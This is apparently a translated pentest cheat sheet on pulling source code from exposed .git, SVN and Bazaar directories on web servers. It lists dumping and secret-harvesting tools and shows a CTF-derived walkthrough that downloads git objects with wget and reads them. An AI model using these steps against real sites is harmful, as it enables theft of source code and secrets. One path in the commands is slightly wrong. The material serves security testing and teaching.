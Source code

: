 # 不安全的代码管理

- [GIT - Source code management](#git---source-code-management)
	- [Github example with a .git](#github-example-with-a-git)
	- [Recovering the content of .git/index](#recovering-the-content-of-gitindex)
	- [Automatic way : diggit.py](#automatic-way--diggitpy)
	- [Automatic way : GoGitDumper](#automatic-way-gogitdumper)
	- [Automatic way : rip-git](#automatic-way--rip-git)
	- [Automatic way : GitHack](#automatic-way--githack)
	- [Harvesting secrets : trufflehog](#harvesting-secrets--trufflehog)
	- [Harvesting secrets : Gitrob](#harvesting-secrets--gitrob)
	- [Harvesting secrets : Gitleaks](#harvesting-secrets--gitleaks)
- [SVN - Source code management](#svn---source-code-management)
	- [SVN example (Wordpress)](#svn-example-wordpress)
	- [Automatic way : svn-extractor](#automatic-way--svn-extractor)
- [BAZAAR - Source code management](#bazaar---source-code-management)
	- [Automatic way : rip-bzr](#automatic-way--rip-bzr)
	- [Automatic way : bzr_dumper](#automatic-way--bzr_dumper)
- [Leaked API keys](#leaked-api-keys)

## GIT - Source code management

以下示例将创建.git的副本或者是当前提交的副本

检查以下文件，如果存在，则可以解压缩出.git文件夹.

- .git/config
- .git/HEAD
- .git/logs/HEAD

### Github example with a .git

1. 检查是否在访问.git时存在403 error (Forbidden)或者存在目录
2. Git保存了所有信息在日志文件.git/logs/HEAD (尝试小写字母head)

```powershell
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

1. 根据hash -> 目录名称(hash的前两个符号)和文件名(剩下的hash).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,

```powershell
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
    tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    parent 15ca375e54f056a576905b41a417b413c57df6eb
    author Michael <michael@easyctf.com> 1489390329 +0000
    committer Michael <michael@easyctf.com> 1489390329 +0000
    Initial.
```